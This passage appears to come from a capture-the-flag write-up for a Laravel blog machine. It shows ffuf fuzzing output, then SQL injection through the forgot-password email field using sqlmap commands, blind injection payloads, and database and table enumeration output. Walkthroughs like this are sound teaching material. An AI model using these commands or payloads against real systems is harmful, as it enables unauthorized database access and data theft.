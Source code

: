 ```bash
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

admin                   [Status: 200, Size: 3304, Words: 493, Lines: 89, Duration: 97ms]
:: Progress: [114441/114441] :: Job [1/1] :: 573 req/sec :: Duration: [0:03:26] :: Errors: 0 ::
```

## Analyzing website and requests

We try to register and user and login, after which we access the `/dashboard` page.\
On it we see 4 small paragraphs of some blogs about pentesting, and one of them mentions `Laravel PHP`.

Indeed when looking at our requests we see 2 cookies `XSRF-TOKEN` and `laravel_session`.\
Also, during login there are 3 values being sent, `_token`, `email`, and `password`.

We will check if any of the page with input boxes is vulnerable to sql injection.\
Adding a `'` in any of the inputs of `/post-login` or `/post-registration` results in `419 unknown status`, **but** when we do that on `/forget-password` we get a `500 Internal Server Error`.

## SQL Injection

We add the request in a txt file, and run `sqlmap`:
```bash
$ sqlmap -r forgot_pass_req.txt -p email --dbs --level 5 --risk 3 --batch
...
sqlmap identified the following injection point(s) with a total of 740 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=csszyTMQIL1fY2dsFuO25CQWYd9CEYnH5wHz16Yb&email=a@a.com' AND 6504=(SELECT (CASE WHEN (6504=6504) THEN 6504 ELSE (SELECT 5254 UNION SELECT 5401) END))-- WGhl

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)
    Payload: _token=csszyTMQIL1fY2dsFuO25CQWYd9CEYnH5wHz16Yb&email=a@a.com' AND 1039=BENCHMARK(5000000,MD5(0x4a704a66))-- ARgM
---
...
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL < 5.0.12
...
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog
```

Now we know that it is vulnerable to sql injection, and that it is a `MySQL` database with one named `usage_blog`.\
We will try to find any tables:
```bash
$ sqlmap -r forgot_pass_req.txt -p email --level 5 --risk 3 --batch -D usage_blog –tables
...
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
```